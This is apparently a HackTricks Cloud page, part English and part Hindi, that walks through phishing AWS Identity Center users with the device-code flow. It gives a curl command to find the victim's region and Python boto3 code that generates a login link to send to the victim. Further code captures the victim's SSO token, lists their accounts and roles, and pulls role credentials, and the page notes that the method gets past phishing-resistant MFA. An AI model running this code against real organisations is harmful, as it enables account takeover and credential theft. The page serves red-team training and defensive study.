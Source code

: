 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Initially proposed in [**this blog post**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), it's possible to send a **link** to a user using AWS SSO that if the **user accepts** the attacker will be able to get a **token to impersonate the user** and access all the roles the user is able to access in the **Identity Center**.

In order to perform this attack the requisites are:

* The victim needs to use **Identity Center**
* The attacker must know the **subdomain** used by the victim `<victimsub>.awsapps.com/start`

Just with the previous info, the **attacker will be able to send a link to the user** that if **accepted** will grant the **attacker access over the AWS user** account.

### Attack

1. **Finding the subdomain**

The first step of the attacker is to find out the subdomain the victim company is using in their Identity Center. This can be done via **OSINT** or **guessing + BF** as most companies will be using their name or a variation of their name here.

With this info, it's possible to get the region where the Indentity Center was configured with:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **शिकार के लिए लिंक उत्पन्न करें और इसे भेजें**

AWS SSO लॉगिन लिंक उत्पन्न करने के लिए निम्नलिखित कोड चलाएँ ताकि शिकार प्रमाणीकरण कर सके।\
डेमो के लिए, इस कोड को एक पायथन कंसोल में चलाएँ और इसे बंद न करें क्योंकि बाद में आपको टोकन प्राप्त करने के लिए कुछ ऑब्जेक्ट्स की आवश्यकता होगी:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using you awesome social engineering skills!

3. **इंतज़ार करें जब तक पीड़ित इसे स्वीकार न कर ले**

यदि पीड़ित **पहले से AWS में लॉग इन था** तो उसे केवल अनुमतियाँ देने के लिए स्वीकार करना होगा, यदि वह नहीं था, तो उसे **लॉग इन करना होगा और फिर अनुमतियाँ देने के लिए स्वीकार करना होगा**।\
यहाँ आजकल प्रॉम्प्ट कैसा दिखता है:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO एक्सेस टोकन प्राप्त करें**

यदि पीड़ित ने प्रॉम्प्ट स्वीकार कर लिया, तो इस कोड को चलाएँ ताकि **उपयोगकर्ता का अनुकरण करते हुए SSO टोकन उत्पन्न किया जा सके**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO एक्सेस टोकन **8 घंटे के लिए मान्य** है।

5. **उपयोगकर्ता का अनुकरण करें**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

यह जानकर मज़ा आता है कि पिछला हमला **काम करता है भले ही "unphisable MFA" (webAuth) का उपयोग किया जा रहा हो**। इसका कारण यह है कि पिछला **कार्यप्रवाह कभी भी उपयोग किए गए OAuth डोमेन को नहीं छोड़ता**। अन्य फ़िशिंग हमलों की तरह नहीं जहां उपयोगकर्ता को लॉगिन डोमेन को प्रतिस्थापित करने की आवश्यकता होती है, इस मामले में डिवाइस कोड कार्यप्रवाह इस तरह से तैयार किया गया है कि **कोड एक डिवाइस द्वारा जाना जाता है** और उपयोगकर्ता एक अलग मशीन में भी लॉगिन कर सकता है। यदि प्रॉम्प्ट को स्वीकार किया जाता है, तो डिवाइस, केवल **प्रारंभिक कोड को जानकर**, उपयोगकर्ता के लिए **क्रेडेंशियल्स पुनः प्राप्त करने में सक्षम होगा**।

इस बारे में अधिक जानकारी के लिए [**इस पोस्ट को देखें**](https://mjg59.dreamwidth.org/62175.html)।

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
